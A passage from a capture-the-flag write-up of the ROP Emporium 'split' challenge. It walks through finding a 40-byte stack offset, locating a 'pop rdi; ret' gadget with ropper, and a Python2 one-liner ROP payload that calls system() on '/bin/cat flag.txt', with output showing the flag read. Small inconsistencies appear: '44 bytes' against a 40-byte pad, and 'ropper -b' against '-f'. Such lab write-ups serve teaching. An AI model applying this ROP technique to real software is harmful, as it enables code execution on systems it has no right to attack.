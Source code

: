 
From the data presented to me, I saw that the `RSP` register contained a pointer to a string of characters starting with `faaaaaaa`.

Using the command `pattern offset faaaaaaa`, it calculated that the offset was **40**.

### Step 3: Finding the pop rdi; ret Gadget
In 64-bit binaries, arguments for functions are passed via the registers: `RDI`, `RSI`, `RDX`, `RCX`, `R8` and `R9`. For this challenge, I only needed to pass one argument to the `system()` function, so I only needed to find a `pop rdi; ret` gadget.

For this, I used a tool named [**ropper**](https://github.com/sashs/Ropper).

Running the command: `ropper -b ./split --search "pop rdi"`, it returned one gadget...
```
$ ropper -f ./split --search "pop rdi"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./split
0x00000000004007c3: pop rdi; ret;
```

The address of the `pop rdi; ret` gadget is `0x00000000004007c3`.

After finding the gadget, I moved onto writing the exploit.

### Step 4: Writing the Exploit
I again, wrote 3 exploits. A one-liner in Python2, a one-liner in Python3, and a fully fledged `pwntools` exploit.

#### Python2 One-Line Exploit
- Print 44 bytes
- Provide the address of the "pop rdi; ret" gadget
- Provide the address of the "/bin/cat flag.txt" string
- Provide the address of the system() function

`python2 -c 'print "A"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x4b\x07\x40\x00\x00\x00\x00\x00"'`
```
$ python2 -c 'print "A"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x4b\x07\x40\x00\x00\x00\x00\x00"' | ./split

split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

#### Python3 One-Line Exploit
Again, for the Python3 one-line exploit I made use of the `sys.stdout.buffer.write()` function from the `sys` module.
